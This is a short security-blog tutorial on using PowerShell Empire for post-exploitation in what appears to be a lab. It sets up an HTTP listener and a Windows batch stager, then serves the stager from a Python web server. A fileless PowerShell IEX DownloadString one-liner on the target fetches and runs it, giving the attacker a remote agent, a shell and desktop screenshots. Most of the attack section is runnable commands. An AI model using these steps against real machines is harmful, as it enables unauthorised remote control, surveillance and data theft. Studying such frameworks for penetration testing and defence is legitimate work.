 # Welcome to Cyber Secure Labs

Working with the newest version of Powershell Empire

Public Site for sharing security writes

## Post Exploitation

### Working with Powershell Empire

Empire is a “PowerShell and Python post-exploitation agent” with a heavy focus on client-side

**Windows Platform: `Exploitation and post exploits are performed using Powershell.`**

**Linux & macOS: `Exploitation requires Python 2.6 or 2.7`**

In the latest version of Powershell Empire comes with a cleint-server model.

To start the server, the command is below:

```bash
sudo powershell-empire server

```

![Untitled](./Untitled.png)

To start the client, the command is below:

```bash
sudo powershell-empire client

```

![Untitled](./Untitled%201.png)

Use the following command to list all listeners, if any is still running:

Command:

`listners`

![Untitled](./Untitled%202.png)

You can use the following command to kill a active listener:

![Untitled](./Untitled%203.png)

**Command:**

syntax: kill <name of listener>

kill test

kill http

After starting both the client an server, the methodology used to carry out an attack are as follows:

1. Start a Listener
2. Start a Stager
3. Listing the Agents
4. Interact with the agents
5. Run Post Exploitation commands

### Setting up a listener:

```
uselistener http

set Name http

set Host 192.168.119.208

set Port 4443

execute
```

![Untitled](./Untitled%204.png)

![Untitled](./Untitled%205.png)

Before we setup a stager, we will check to ensure no agents are currently running with the below 

**Command:**

`agents`

![Untitled](./Untitled%206.png)

If an agent was running and you would like to kill it, simply use the command below:

**syntax:** 

`kill <name of the agent>`

### Setting up a stager:

We will set our stager to: `windows/launcher_bat` and set our listener to be `http` just as we have named it when setting up the listener and execute it to start the listener.

```bash
usestager windows/launcher_bat

set Listener http

execute

```

After setting up the stager with the above commands, the follow payload will be exported to your a location on your machine.  In the context of this exercise, we will copy the exported payload and save to a directory and serve it to our target machine via a python web server.

![Untitled](./Untitled%207.png)

We will start a Python web server and transfer the file onto the windows target.

Command: 

`python3 -m http.server 3030`

![Untitled](./Untitled%208.png)

On the windows target machine,we will download the file and execute it without saving it to the target machine local hard-disk with the below power-shell command:

![Untitled](./Untitled%209.png)

```powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.208:3030/launcher.bat')
```

After executing the command above and hit enter twice at the command prompt, our script executes and a session is passed back to our powershell empire listening console.

![Untitled](./Untitled%2010.png)

### Setting up a stager:

From the above, we can see that a new agent A26S4CZV checked in

We can use the below command to list all agents

![Untitled](./Untitled%2011.png)

```
agents

```

Interacting with an agent is simple as using the below syntax

interact <agent name>

Example: 

```
interact A26S4CZV

```

![Untitled](./Untitled%2012.png)

### Post Exploitation Commands:

```
info

```

![Untitled](./Untitled%2013.png)

Using the command shell:

Command:

`shell`

![Untitled](./Untitled%2014.png)

### Taking a Screenshot of Target Machine's desktop

```
usemodule powershell/collection/screenshot
execute
```

![Untitled](./Untitled%2015.png)

![Untitled](./Untitled%2016.png)

